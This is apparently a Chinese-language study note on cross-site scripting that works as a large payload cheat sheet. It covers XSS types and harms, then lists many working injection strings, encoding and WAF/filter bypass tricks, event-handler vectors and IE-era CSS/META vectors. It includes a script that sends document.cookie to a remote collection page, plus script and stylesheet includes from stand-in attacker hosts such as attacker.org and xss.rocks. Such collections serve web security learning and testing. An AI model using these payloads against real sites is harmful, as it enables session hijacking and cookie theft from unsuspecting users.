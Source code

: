 #                                  XSS

* ## XSS定义

跨站脚本（Cross-site scripting，XSS）是对网页代码（包含HTML以及前端脚本）有漏洞的网站进行的攻击，是代码注入的一种。它允许恶意代码被注入到网页上，其他使用者在访问网页时就会受
到影响。攻击成功后，攻击者可能得 到更高的权限、私密网页内容、会话和cookie等各种内容。 

> 提示
>
> > XSS属于客户端攻击，受害者最终是用户。但不要忘记网站管理人员也属于用户之一，管理员拥有着太多权限，一般管理员都可以对网站进行文件管理、数据管理等操作，攻击者就有可能靠管理员身份作为跳板实施攻击。

* ## 原理

  XSS攻击是在网页中嵌入客户端恶意脚本代码，这些恶意代码一般使用JavaScript语言编写JavaScript可以用来获取用户的Cookie、改变网页内容、URL调转，存在XSS漏洞的网站，可以盗取用户Cookie、黑掉页面、导航到恶意网站，攻击者仅仅需要向web页面注入JavaScript代码

* ## XSS常见出现漏洞的地方

  1. 数据交互的地方
     - get、post、cookies、headers
     - 反馈与浏览
     - 富文本编辑器
     - 各类标签插入和自定义
  2. 数据输出的地方
     - 用户资料
     - 关键词、标签、说明
     - 文件上传

* ## 危害

  - 网络钓鱼，包括获取各类用户账号；
  - 窃取用户cookies资料，从而获取用户隐私信息，或利用用户身份进一步对网站执行操作；
  - 劫持用户（浏览器）会话，从而执行任意操作，例如非法转账、强制发表日志、电子邮件等；
  - 强制弹出广告页面、刷流量等；
  - 网页挂马；
  - 进行恶意操作，如任意篡改页面信息、删除文章等；
  - 进行大量的客户端攻击，如ddos等；
  - 获取客户端信息，如用户的浏览历史、真实ip、开放端口等；
  - 控制受害者机器向其他网站发起攻击；
  - 结合其他漏洞，如csrf,实施进一步危害；
  - 提升用户权限，包括进一步渗透网站；
  - 传播跨站脚本蠕虫等

* ## 分类

  1. 反射型（不储存于服务器，非持久）
  2. 储存性（粗存于服务器，持久性）
  3. DOM型（改变DOM结构）（DOM本身代表文档，给予DOM型的XSS不需要与服务器交互，只发生在客户端处理数据阶段）![image-20201229221502057](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20201229221502057.png)

- ## 漏洞利用

 1.盗取cookie： 

```
<script>alert(document.cookie)</script>
```

 2.构造页面跳转： 

```
<script>location='https://www.hacker.com'</script>
```

 3.构造获取cookie并发送到远程主机： 

```javascript
<script>document.location='http://127.0.0.1/test/cookie.phpcookie='+document.cookie</script>
```

- ### 常见注入点

1、输入框

2、留言板

3、URL中可传参数的变量

* ### 触发JS解析器的方式：

  1. 直接嵌入<script>代码块。
2. 通过src属性加载代码。
  3. 行内样式
  4. 各种HTML CSS参数支持JavaScript：URL伪协议触发调用。
  5. 事件处理器，如：onload，onerror，onclick等。
  6. 定时器，timer（setTimeout，setInterval）
  7. eval(...)调用

* ## 过滤与绕过

  ### 1. 闭合引号、标签

  ### 2. 关键字、符号过滤

- 反引号代替圆括号

- 换行、空格、Tab绕过正则

- <!--不仅可以用-->,也可以用--!>闭合

- //可以用换行来绕过

- <!--和-->都可以在html的script标签里单独使用进行单行注释

- ſ 符号转换为大写后正好为大写字母 S

- 可以用 %0a 代替空格进行绕过

- 用 / 代替空格

- 不闭合标签
  -   <  代替  >  闭合标签
  ```javascript
  <iframe src=http://xss.rocks/scriptlet.html <
  ```
  - firefox 自动补全标签
  ```javascript
  <SCRIPT SRC=http://xss.rocks/xss.js?< B >
  ```
  - 被限制长度，浏览器可识别 .j 

    ```javascript
    <SCRIPT SRC=//xss.rocks/.j>
    ```

  -  IE中用以下符号代替>闭合标签

  ```javascript
  /((\\%3D)|(=))\[^\\n\]\*((\\%3C)|\<)\[^\\n\]+((\\%3E)|\>)/
  ```

- 额外的无关括号

  ```javascript
  <<SCRIPT>alert("XSS");//\<</SCRIPT>
  ```

- 大小写

- Non-alpha-non-digit XSS（⑧懂）

  ```javascript
  <SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>
  ```

  ```javascript
  <BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
  ```

- ”覆盖变量“

  ```javascript
  \";alert('XSS');//
  ```

  > 效果：
  >
  > ```javascript
  > <SCRIPT>var a="\\\\";alert('XSS');//";</SCRIPT>
  > ```

- 双写、拼凑

- 当括号被过滤的时候可以使用throw来绕过

  > ```javascript
  > <svg/onload="window.onerror=eval;throw'=alert\x281\x29';">
  > ```

- 如果是html标签中，可以不用引号；如果是在js中，可以用反引号代替单双引号。

- 字符拼接
  
> 利用eval
> ```javascript
> <img src="x" onerror="a=`aler`;b=`t`;c='(`xss`);';eval(a+b+c)">
> ```
>
> 利用top
>
> ```
> <script>top["al"+"ert"](`xss`);</script>
> ```

- 干扰字符（任意位置插入null字符）
> ```javascript
  ><im[%00]g onerror=alert(xss) src=a>
> ```
- html标签中用`//`可以代替`http://`

  ```javascript
  <img src="x" onerror=document.location=`//www.baidu.com`>
  ```

- 使用`\\`

  ```javascript
  但是要注意在windows下\本身就有特殊用途，是一个path 的写法，所以\\在Windows下是file协议，在linux下才会是当前域的协议
  ```

- 使用中文逗号代替英文逗号

  > 如果你在你在域名中输入中文句号浏览器会自动转化成英文的逗号 

  ```javascript
  <img src="x" onerror="document.location=`http://www。baidu。com`">//会自动跳转到百度
  ```

- 其它字符混淆

> 有的waf可能是用正则表达式去检测是否有xss攻击，如果我们能fuzz出正则的规则，则我们> > 就可以使用其它字符去混淆我们注入的代码了
> 下面举几个简单的例子
>
> > 可利用注释、标签的优先级等
```javascript
<<script>alert("xss");//<</script>
<title><img src=</title>><img src=x onerror="alert(`xss`);"> //因为title标签的优先级比img的高，所以会先闭合title，从而导致前面的img标签无效
<SCRIPT>var a="\\";alert("xss");//";</SCRIPT>
```
### 3. 编码绕过

* url编码，JavaScript编码  （在src等属性标签下可用，”JavaScript“本身不能编码）
  
  |     进制      |       格式       |
  | :-----------: | :--------------: |
  |  ascll(默认)  |       %00        |
  |    八进制     | \0(三位不足补零) |
  |    十六进     |       \x00       |
  | unicode编码制 |      \u0000      |
  |    base64     |       如下       |
  
  ```javascript
  <img src="x" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">
  <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
  ```
  
* HTML实体（对大小写敏感，**分号没必要，最大7位填充，0可忽略**）
  
    [html实体码转码](https://www.qqxiuzi.cn/bianma/zifushiti.php "实体码，记得预留字符转命名实体")
  
    ![image-20201229232607711](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20201229232607711.png)

  

* 宽字节绕过

* 复合编码

* String.fromCharCode编码

      如alert编码为：
      
      ```javascript
      String.fromCharCode(97,108,101,114,116)
      ```

* JavaScript转义（在src等属性标签下可用，”JavaScript“本身不能编码）

    ```javascript
  <a href=javascript:eval(alert('xss'))>aa</a>
  ```
  
* java alert encode**(编码最多是7位填充，包括)**

  ```javascript
  <img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
  ```


- expression属性

  ```
  <img style="xss:expression(alert('xss''))"> // IE7以下
  <div style="color:rgb(''�x:expression(alert(1))"></div> //IE7以下
  <style>#test{x:expression(alert(/XSS/))}</style> // IE7以下
  ```

- US-ASCII Encoding

  > US-ASCII encoding (found by Kurt Huwig).This uses malformed ASCII  encoding with 7 bits instead of 8. This XSS may bypass many content  filters but only works if the host transmits in US-ASCII encoding, or if you set the encoding yourself. This is more useful against web  application firewall cross site scripting evasion than it is server side filter evasion. Apache Tomcat is the only known server that transmits  in US-ASCII encoding.

  ```
  ¼script¾alert(¢XSS¢)¼/script¾
  ```



#### 4. 外部标签

  ---> <svg>属于外部标签，是一种特殊的标签，它使用XML格式定义图像，XML支持在标签内解析HTML实体字符，所以在XML中可以执行。
```javascript
<svg><script>alert(&#40;'1'&#41;</script>)
```

##### 浏览器解码顺序

html解码 ---> JavaScript解码 ---> url解码 ---> 发送http请求

![image-20201229223632254](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20201229223632254.png)


### 5. 使用IP

  **1.十进制IP**

```javascript
<img src="x" onerror=document.location=`http://2130706433/`>
```

  **2.八进制IP**

```javascript
<img src="x" onerror=document.location=`http://0177.0.0.01/`>
```

  **3.hex**

```javascript
<img src="x" onerror=document.location=`http://0x7f.0x0.0x0.0x1/`>
```



#### 6. CSS import

IE 浏览器支持在 CSS 中扩展 JavaScript，这种技术称为动态特性(dynamic properties)。允许攻击者加载一个外部 CSS 样式表是相当危险的，因为攻击者现在可以在原始页面中执行 JavaScript 代码了。
 ```javascript
 <style>
 @import url("http://attacker.org/malicious.css");
 </style>
 ```
 **malicious.css：**
```javascript
 body {
   color: expression(alert('XSS'));
 }
```
**为了绕过对 @import 的过滤，可以在 CSS 中使用反斜杠进行绕过：**

 ```javascript
 <style>
 @imp\ort url("http://attacker.org/malicious.css");
 </style>
 ```
 IE 浏览器会接受反斜杠，但是我们绕过了过滤器。



### 7. JavaScript伪协议

**---><a>标签**

```javascript
<a href="javascript:alert(`xss`);">xss</a>
```

**---><iframe>标签**

```javascript
<iframe src=javascript:alert('xss');></iframe>
```

**---><img>标签**

```javascript
<img src=javascript:alert('xss')>//IE7以下
```

**---><form>标签**


```javascript
<form action="Javascript:alert(1)"><input type=submit>
```



###  **8. 利用link远程包含js文件**

> PS：在无CSP的情况下才可以

  ```
<link rel=import href="http://127.0.0.1/1.js">
  ```

> rename .js

```
<SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT>
```



### 9. 其它

**--->UTF-7 Encoding**

> If the page that the XSS resides on doesn’t provide a page charset  header, or any browser that is set to UTF-7 encoding can be exploited  with the following (Thanks to Roman Ivanov for this one). Click here for an example (you don’t need the charset statement if the user’s browser  is set to auto-detect and there is no overriding content-types on the  page in Internet Explorer and Netscape 8.1 in IE rendering engine mode). This does not work in any modern browser without changing the encoding  type which is why it is marked as completely unsupported. Watchfire  found this hole in Google’s custom 404 script.:

```
<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-
```

**--->Cookie Manipulation**

> Admittedly this is pretty obscure but I have seen a few examples where `<META` is allowed and you can use it to overwrite cookies. There are other  examples of sites where instead of fetching the username from a database it is stored inside of a cookie to be displayed only to the user who  visits the page. With these two scenarios combined you can modify the  victim’s cookie which will be displayed back to them as JavaScript (you  can also use this to log people out or change their user states, get  them to log in as you, etc…):

```
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
```

**--->PHP**

> Requires PHP to be installed on the server to use this XSS vector.  Again, if you can run any scripts remotely like this, there are probably much more dire issues:

```javascript
<? echo('<SCR)';
echo('IPT>alert("XSS")</SCRIPT>'); ?>
```

**--->EMBED a Flash Movie That Contains XSS**

> Click here for a demo: ~~http://ha.ckers.org/xss.swf~~

```
<EMBED SRC="http://ha.ckers.org/xss.swf" AllowScriptAccess="always"></EMBED>
```

> firefox

```
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
```

**--->Downlevel-Hidden Block**

> Only works in IE5.0 and later and Netscape 8.1 in IE rendering engine mode). Some websites consider anything inside a comment block to be  safe and therefore does not need to be removed, which allows our Cross  Site Scripting vector. Or the system could add comment tags around  something to attempt to render it harmless. As we can see, that probably wouldn’t do the job:

```
<!--[if gte IE 4]>
<SCRIPT>alert('XSS');</SCRIPT>
<![endif]-->
```

**--->background属性**

```javascript
<table background=javascript:alert(1)></table> //在Opera 10.5和IE6上有效
```

**--->XSS Locator**

```javascript
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```

```javascript
<SCRIPT>var a="\\\\";alert('XSS');//";</SCRIPT>
```

**--->Malformed IMG Tags**

```javascript
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
```

**--->Livescript (older versions of Netscape only)**

```javascript
<IMG SRC="livescript:[code]">
```

**--->VBscript in an Image**

```javascript
<IMG SRC='vbscript:msgbox("XSS")'>
```

**--->List-style-image**

> Fairly esoteric issue dealing with embedding images for bulleted  lists. This will only work in the **IE** rendering engine because of the  JavaScript directive. Not a particularly useful cross site scripting  vector:

```javascript
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
```

**--->ECMAScript 6**

```javascript
Set.constructor`alert\x28document.domain\x29
```

**--->BGSOUND**

```javascript
<BGSOUND SRC="javascript:alert('XSS');">
```

**--->& JavaScript includes**

```javascript
<BR SIZE="&{alert('XSS')}">
```

**--->STYLE sheet**

```javascript
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
```

### 10. 各种标签

   **---><script>标签：**
```javascript
<script>alert(/1/)</script>
<script>prompt(1)</script> 
<script>confirm(1)</script>
<script src="http://attacker.org/malicious.js"></script>
<script src=data:text/javascript,alert(1)></script>
<script>setTimeout(alert(1),0)</script>
```
   **---><a>标签：**

```javascript
<a href="javascript:alert(1)">点击触发</a>
<a href="http://www.hacker.com">点击触发</a>
```

  **---><img>**

  ```javascript
  <img src=1 onerror=alert("xss");>
  ```

> Default SRC Tag to Get Past Filters that Check SRC Domain
>
> ```javascript
> <IMG SRC=# onmouseover="alert('xxs')">
> ```
>
> Default SRC Tag by Leaving it Empty
>
> ```javascript
> <IMG SRC= onmouseover="alert('xxs')">
> ```
>
> Default SRC Tag by Leaving it out Entirely
>
> ```javascript
> <IMG onmouseover="alert('xxs')">
> ```
>
> IMG Lowsre
>
> ```javascript
> <IMG LOWSRC="javascript:alert('XSS')">
> ```
>
> IMG Dynsrc
>
> ```javascript
> <IMG DYNSRC="javascript:alert('XSS')">
> ```
>
> On Error Alert
>
> ```javascript
> <IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
> ```

**---><input>**

  ```
  <input onfocus="alert('xss');">
  竞争焦点，从而触发onblur事件
  <input onblur=alert("xss") autofocus><input autofocus>
  通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
<input onfocus="alert('xss');" autofocus>
  ```

**---><details>**


```
  <details ontoggle="alert('xss');">
  使用open属性触发ontoggle事件，无需用户去触发
  <details open ontoggle="alert('xss');">
```

**---><svg>**


  ```
  <svg onload=alert("xss");>
  ```

**---><select>**

  ```
  <select onfocus=alert(1)></select>
  通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
  <select onfocus=alert(1) autofocus>
  ```

**---><iframe>**

  ```
  <iframe onload=alert("xss");></iframe>
  ```

**---><video>**

  ```
  <video><source onerror="alert(1)">
  ```

**---><audio>**

  ```
  <audio src=x  onerror=alert("xss");>
  ```

**---><body>**

  ```
  <body/onload=alert("xss");>
  ```

> 利用换行符以及autofocus，自动去触发onscroll事件，无需用户去触发

  ```
  <body
  onscroll=alert("xss");><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>
  ```

**---><textarea>**

  ```
  <textarea onfocus=alert("xss"); autofocus>
  ```

**---><keygen>**

  ```
  <keygen autofocus onfocus=alert(1)> //仅限火狐
  ```

**---><marquee>**

  ```
  <marquee onstart=alert("xss")></marquee> //Chrome不行，火狐和IE都可以
  ```

**---><isindex>**

  ```
  <isindex type=image src=1 onerror=alert("xss")>//仅限于IE
  ```

**---><style>(限制较多)**

**Remote style sheet**

> Using something as simple as a remote style sheet you can include  your XSS as the style parameter can be redefined using an embedded  expression. This only works in IE and Netscape 8.1+ in IE rendering  engine mode. Notice that there is nothing on the page to show that there is included JavaScript. Note: With all of these remote style sheet  examples they use the body tag, so it won’t work unless there is some  content on the page other than the vector itself, so you’ll need to add a single letter to the page to make it work if it’s an otherwise blank  page:

```
<LINK REL="stylesheet" HREF="http://xss.rocks/xss.css">
```

**Remote style sheet part 2**

> This works the same as above, but uses a `<STYLE>` tag instead of a `<LINK>` tag). A slight variation on this vector was used to hack Google Desktop. As a side note, you can remove the end `</STYLE>` tag if there is HTML immediately after the vector to close it. This is  useful if you cannot have either an equals sign or a slash in your cross site scripting attack, which has come up at least once in the real  world:

```
<STYLE>@import'http://xss.rocks/xss.css';</STYLE>
```

**Remote style sheet part 3**

> This only works in Opera 8.0 (no longer in 9.x) but is fairly tricky. According to RFC2616 setting a link header is not part of the HTTP1.1  spec, however some browsers still allow it (like Firefox and Opera). The trick here is that I am setting a header (which is basically no  different than in the HTTP header saying `Link: <http://xss.rocks/xss.css>; REL=stylesheet`) and the remote style sheet with my cross site scripting vector is running the JavaScript, which is not supported in FireFox:

```
<META HTTP-EQUIV="Link" Content="<http://xss.rocks/xss.css>; REL=stylesheet">
```

**Remote style sheet part 4**

> This only works in Gecko rendering engines and works by binding an  XUL file to the parent page. I think the irony here is that Netscape  assumes that Gecko is safer and therefor is vulnerable to this for the  vast majority of sites:

```
<STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>
```

**STYLE Tags with Broken-up JavaScript for XSS**

> This XSS at times sends IE into an infinite loop of alerts:

```
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
```

**STYLE Attribute using a Comment to Break-up Expression**

> Created by Roman Ivanov

```
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
```

**IMG STYLE with Expression**

> This is really a hybrid of the above XSS vectors, but it really does  show how hard STYLE tags can be to parse apart, like above this can send IE into a loop:

```
exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'>
```

**STYLE Tag (Older versions of Netscape only)**

```
<STYLE TYPE="text/javascript">alert('XSS');</STYLE>
```

**STYLE Tag using Background-image**

```
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
```

**STYLE Tag using Background**

```
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>` `<STYLE type="text/css">BODY{background:url("<javascript:alert>('XSS')")}</STYLE>
```

**Anonymous HTML with STYLE Attribute**

IE6.0 and Netscape 8.1+ in IE rendering engine mode don’t really care if the HTML tag you build exists or not, as long as it starts with an  open angle bracket and a letter:

```
<XSS STYLE="xss:expression(alert('XSS'))">
```

**---><META>**

> The odd thing about meta refresh is that it doesn’t send a referrer  in the header - so it can be used for certain types of attacks where you need to get rid of referring URLs:

```
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
```

**META using Data**

> Directive URL scheme. This is nice because it also doesn’t have  anything visibly that has the word SCRIPT or the JavaScript directive in it, because it utilizes base64 encoding. Please see RFC 2397 for more  details or go here or here to encode your own. You can also use the XSS [calculator](http://ha.ckers.org/xsscalc.html) below if you just want to encode raw HTML or JavaScript as it has a Base64 encoding method:

```
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
```

**META with Additional URL Parameter**

> If the target website attempts to see if the URL contains `<http://>;` at the beginning you can evade it with the following technique (Submitted by Moritz Naumann):

```
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">
```

**---><TD>**

```
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
```

**---><DIV>**

```
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
```

**---><BASE>**

```
<BASE HREF="javascript:alert('XSS');//">
```

**---><OBJECT>**

> If they allow objects, you can also inject virus payloads to infect  the users, etc. and same with the APPLET tag). The linked file is  actually an HTML file that can contain your XSS:

```
<OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>
```

**---><XML>**

> This XSS attack works only in IE and Netscape 8.1 in IE rendering  engine mode) - vector found by Sec Consult while auditing Yahoo:

```
<XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML> 
<SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>
```

> 例：
>
> > ```javascript
> > <script>alert(navigator.userAgent)<script> <script>alert(88199)</script> <script>confirm(88199)</script> <script>prompt(88199)</script> <script>\u0061\u006C\u0065\u0072\u0074(88199)</script> <script>+alert(88199)</script> <script>alert(/88199/)</script> 
> > <script src=data:text/javascript,alert(88199)></script> 
> > <script src=&#100&#97&#116&#97:text/javascript,alert(88199)></script> <script>alert(String.fromCharCode(49,49))</script> <script>alert(/88199/.source)</script> <script>setTimeout(alert(88199),0)</script> 
> > <script>document['write'](88199);</script> 
> > <anytag οnmοuseοver=alert(15)>M 
> > <anytag οnclick=alert(16)>M 
> > <a οnmοuseοver=alert(17)>M 
> > <a οnclick=alert(18)>M 
> > <a href=javascript:alert(19)>M 
> > <button/οnclick=alert(20)>M 
> > <form><button formaction=javascript&colon;alert(21)>M <form/action=javascript:alert(22)><input/type=submit> 
> > <form οnsubmit=alert(23)><button>M 
> > <form οnsubmit=alert(23)><button>M 
> > <img src=x οnerrοr=alert(24)> 29 
> > <body/οnlοad=alert(25)> 
> > <body οnscrοll=alert(26)><br><br><br><br><br><br><br> <br><br><br><br><br><br><br><br><br><br><br> <br><br><br><br><br><br><br><br><br><br><br> <br><br><br><br><br><br><br><br><br><br><br> <input autofocus> <iframe src="http://0x.lv/xss.swf"></iframe> 
> > <iframe/οnlοad=alert(document.domain)></iframe> 
> > <IFRAME SRC="javascript:alert(29);"></IFRAME> 
> > <meta http-equiv="refresh" content="0; url=data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%2830%29%3C%2%73%63%72%69%70%74%3E"> 
> > <object data=data:text/html;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5kb21haW4pPC9zY3JpcHQ+></object> 
> > <object data="javascript:alert(document.domain)"> 
> > <marquee onstart=alert(30)></marquee> 
> > <isindex type=image src=1 οnerrοr=alert(31)> 
> > <isindex action=javascript:alert(32) type=image> 
> > <input οnfοcus=alert(33) autofocus> 
> > <input οnblur=alert(34) autofocus><input autofocus>
> >     
> > //关键字和编码结合
> > <IMG SRC="jav&#x0A;ascript:alert('XSS');"> //换行
> > <IMG SRC="jav&#x0D;ascript:alert('XSS');"> //空格
> > <IMG SRC="jav&#x09;ascript:alert('XSS');"> //Tab
> > ```

### 11. Filter Bypass Alert Obfuscation

- `(alert)(1)`
- `a=alert,a(1)`
- `[1].find(alert)`
- `top[“al”+”ert”](1)`
- `top[/al/.source+/ert/.source](1)`
- `al\u0065rt(1)`
- `top[‘al\145rt’](1)`
- `top[‘al\x65rt’](1)`
- `top[8680439..toString(30)](1)`
- `alert?.()`

###  **常用事件：** 


  onclick: 点击触发
  ```
  （<img src=x onclick=alert(1)>）
  ```

  onerror: 当 src 加载不出来时触发
  ```
  （<img src=x onerror=alert(1)>）
  ```

  onload: 当 src 加载完毕触发
  ```
  （<img src=x onload=alert(1)>）
  ```

  onmouseover：鼠标移动到图片后触发
  ```
  （<img src=x onmouseover=alert(1)>）
  ```

  onmousemove: 鼠标移到指定元素触发
  ```
  （<img src=x onmousemove=alert(1) >）
  ```

  onfocus: 当input 输入框获取焦点时触发
  ```
  （<input onfocus=javascript:alert(1) autofocus>）
  ```



### [事件列表](http://help.dottoro.com/ljfvvdnm.php)

1. `FSCommand()` (attacker can use this when executed from within an embedded Flash object)
2. `onAbort()` (when user aborts the loading of an image)
3. `onActivate()` (when object is set as the active element)
4. `onAfterPrint()` (activates after user prints or previews print job)
5. `onAfterUpdate()` (activates on data object after updating data in the source object)
6. `onBeforeActivate()` (fires before the object is set as the active element)
7. `onBeforeCopy()` (attacker executes the attack string right before a selection is copied to the clipboard - attackers can do this with the `execCommand("Copy")` function)
8. `onBeforeCut()` (attacker executes the attack string right before a selection is cut)
9. `onBeforeDeactivate()` (fires right after the activeElement is changed from the current object)
10. `onBeforeEditFocus()` (Fires before an object contained in an editable element enters a  UI-activated state or when an editable container object is control  selected)
11. `onBeforePaste()` (user needs to be tricked into pasting or be forced into it using the `execCommand("Paste")` function)
12. `onBeforePrint()` (user would need to be tricked into printing or attacker could use the `print()` or `execCommand("Print")` function).
13. `onBeforeUnload()` (user would need to be tricked into closing the browser - attacker cannot unload windows unless it was spawned from the parent)
14. `onBeforeUpdate()` (activates on data object before updating data in the source object)
15. `onBegin()` (the onbegin event fires immediately when the element’s timeline begins)
16. `onBlur()` (in the case where another popup is loaded and window looses focus)
17. `onBounce()` (fires when the behavior property of the marquee object is set to  “alternate” and the contents of the marquee reach one side of the  window)
18. `onCellChange()` (fires when data changes in the data provider)
19. `onChange()` (select, text, or TEXTAREA field loses focus and its value has been modified)
20. `onClick()` (someone clicks on a form)
21. `onContextMenu()` (user would need to right click on attack area)
22. `onControlSelect()` (fires when the user is about to make a control selection of the object)
23. `onCopy()` (user needs to copy something or it can be exploited using the `execCommand("Copy")` command)
24. `onCut()` (user needs to copy something or it can be exploited using the `execCommand("Cut")` command)
25. `onDataAvailable()` (user would need to change data in an element, or attacker could perform the same function)
26. `onDataSetChanged()` (fires when the data set exposed by a data source object changes)
27. `onDataSetComplete()` (fires to indicate that all data is available from the data source object)
28. `onDblClick()` (user double-clicks a form element or a link)
29. `onDeactivate()` (fires when the activeElement is changed from the current object to another object in the parent document)
30. `onDrag()` (requires that the user drags an object)
31. `onDragEnd()` (requires that the user drags an object)
32. `onDragLeave()` (requires that the user drags an object off a valid location)
33. `onDragEnter()` (requires that the user drags an object into a valid location)
34. `onDragOver()` (requires that the user drags an object into a valid location)
35. `onDragDrop()` (user drops an object (e.g. file) onto the browser window)
36. `onDragStart()` (occurs when user starts drag operation)
37. `onDrop()` (user drops an object (e.g. file) onto the browser window)
38. `onEnd()` (the onEnd event fires when the timeline ends.
39. `onError()` (loading of a document or image causes an error)
40. `onErrorUpdate()` (fires on a databound object when an error occurs while updating the associated data in the data source object)
41. `onFilterChange()` (fires when a visual filter completes state change)
42. `onFinish()` (attacker can create the exploit when marquee is finished looping)
43. `onFocus()` (attacker executes the attack string when the window gets focus)
44. `onFocusIn()` (attacker executes the attack string when window gets focus)
45. `onFocusOut()` (attacker executes the attack string when window looses focus)
46. `onHashChange()` (fires when the fragment identifier part of the document’s current address changed)
47. `onHelp()` (attacker executes the attack string when users hits F1 while the window is in focus)
48. `onInput()` (the text content of an element is changed through the user interface)
49. `onKeyDown()` (user depresses a key)
50. `onKeyPress()` (user presses or holds down a key)
51. `onKeyUp()` (user releases a key)
52. `onLayoutComplete()` (user would have to print or print preview)
53. `onLoad()` (attacker executes the attack string after the window loads)
54. `onLoseCapture()` (can be exploited by the `releaseCapture()` method)
55. `onMediaComplete()` (When a streaming media file is used, this event could fire before the file starts playing)
56. `onMediaError()` (User opens a page in the browser that contains a media file, and the event fires when there is a problem)
57. `onMessage()` (fire when the document received a message)
58. `onMouseDown()` (the attacker would need to get the user to click on an image)
59. `onMouseEnter()` (cursor moves over an object or area)
60. `onMouseLeave()` (the attacker would need to get the user to mouse over an image or table and then off again)
61. `onMouseMove()` (the attacker would need to get the user to mouse over an image or table)
62. `onMouseOut()` (the attacker would need to get the user to mouse over an image or table and then off again)
63. `onMouseOver()` (cursor moves over an object or area)
64. `onMouseUp()` (the attacker would need to get the user to click on an image)
65. `onMouseWheel()` (the attacker would need to get the user to use their mouse wheel)
66. `onMove()` (user or attacker would move the page)
67. `onMoveEnd()` (user or attacker would move the page)
68. `onMoveStart()` (user or attacker would move the page)
69. `onOffline()` (occurs if the browser is working in online mode and it starts to work offline)
70. `onOnline()` (occurs if the browser is working in offline mode and it starts to work online)
71. `onOutOfSync()` (interrupt the element’s ability to play its media as defined by the timeline)
72. `onPaste()` (user would need to paste or attacker could use the `execCommand("Paste")` function)
73. `onPause()` (the onpause event fires on every element that is active when the timeline pauses, including the body element)
74. `onPopState()` (fires when user navigated the session history)
75. `onProgress()` (attacker would use this as a flash movie was loading)
